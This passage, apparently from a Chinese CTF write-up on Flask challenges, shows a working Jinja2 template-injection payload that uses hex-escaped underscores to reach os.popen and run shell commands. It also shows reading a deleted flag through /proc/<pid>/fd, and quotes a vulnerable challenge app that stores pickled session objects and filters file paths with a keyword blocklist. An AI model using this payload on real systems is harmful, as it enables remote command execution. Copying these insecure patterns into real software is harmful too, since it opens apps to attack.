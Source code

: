 ![4](https://the0n3.top/medias/buuflask/4.png)


### 方法二：读取进程

题目先注入flag，启动容器，容器读取flag，容器删除flag，整个过程flask进程一直在运行，所以可以读取进程的内存，拿到flag

用ps命令，查看一下flask进程的pid

::: v-pre
```python
nickname={{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[127]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["popen"]("ps -a")["read"]()}}
```
:::

看到flask进程pid是1

![9](https://the0n3.top/medias/buuflask/9.png)

`/proc/pid/fd/`目录下存放着这个进程读取操作过的文件，包括文件路径，文件内容等

看一下flask进程的fd目录，可以看到这个目录下存放着删除的flag文件，现在文件名是`3`读一下内容

![10](https://the0n3.top/medias/buuflask/10.png)

![11](https://the0n3.top/medias/buuflask/11.png)


## [HFCTF 2021 Final]easyflask

在`/file`路由下提示源码在`/app/source`下，读取一下

::: v-pre
```python
#!/usr/bin/python3.6
import os
import pickle
from base64 import b64decode
from flask import Flask, request, render_template, session

app = Flask(__name__)
app.config["SECRET_KEY"] = "*******"

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})

@app.route('/', methods=('GET',))
def index_handler():
    if not session.get('u'):
        u = pickle.dumps(User())
        session['u'] = u
    return "/file?file=index.js"

@app.route('/file', methods=('GET',))
def file_handler():
    path = request.args.get('file')
    path = os.path.join('static', path)
    if not os.path.exists(path) or os.path.isdir(path) \
            or '.py' in path or '.sh' in path or '..' in path or "flag" in path:
        return 'disallowed'
    with open(path, 'r') as fp:
        content = fp.read()
    return content
```